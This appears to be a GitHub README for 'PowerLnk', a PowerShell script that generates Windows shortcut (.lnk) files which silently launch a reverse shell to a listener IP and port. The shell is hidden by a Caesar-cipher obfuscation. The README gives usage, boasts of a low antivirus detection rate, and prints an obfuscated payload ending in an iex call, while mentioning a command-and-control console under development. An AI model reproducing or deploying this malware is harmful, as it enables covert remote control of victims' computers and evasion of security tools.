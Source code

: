 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell using a caesar cipher as obfuscation, starts minimized then quickly hides the window. Tool is intended for strictly lawful purposes only. I'm not responsible for how it is used.

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 4/62 on virustotal, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2


code executed will look something like ```[text.encoding]::ascii.getstring([type].([string]::new([char[]](('ewwiqfp}'|fhx).Bytes|%{$_-4}))).([string]::new([char[]](('kixx}ti'|fhx).B
ytes|%{$_-4})))(([string]::new([char[]](('W}wxiq2Gsrzivx'|fhx).Bytes|%{$_-4}))))::([string]::new([char[]](('jvsqfewi:8wxvmrk'|fhx).Bytes|%{$
_-4})))(([string]::new([char[]](('NLk=OI9ph}5T]qtp]7UkfqZ4PrRz]6xphLQyhKR{]6|t^[94OGM|SXMyQX]8PnIyQn]mPHU4Q}otPqhphLR4gqZlfWktS5xmi\Vp[55hNK
M=QG8yRnY5Q~Z<N\w{jXx7eKpw^WksNKo=NLkygqZl^Gko]m{{PGVmPo|pfqh4eGotP[9pMHEti}VoTWlfg7p~hKZxPrVpiLUy^[9nf6VtfqhhSntr^\VpfqRz^Kpy^}k}QHI}R}otPq
hphKN9hKZ~OGkse[Z8OGlS^\gxX6Nu^[R4MG54MLVpiLUy]\Rne[ppfqRz^Kpy^}oy^6Z4g7V}e[9rOGVmPHEwNKotOXM/NnJ<f7Z4P\R4gqpy^}ovOLF7^GoygKJ4eGwmTmEmOWo;NL
kyh7NthKYsNKUwQG{o^G9Q^[9rhKktS}V8Pq^wh\RsOGp='|fhx).Bytes|%{$_-4})))))|i`ex```
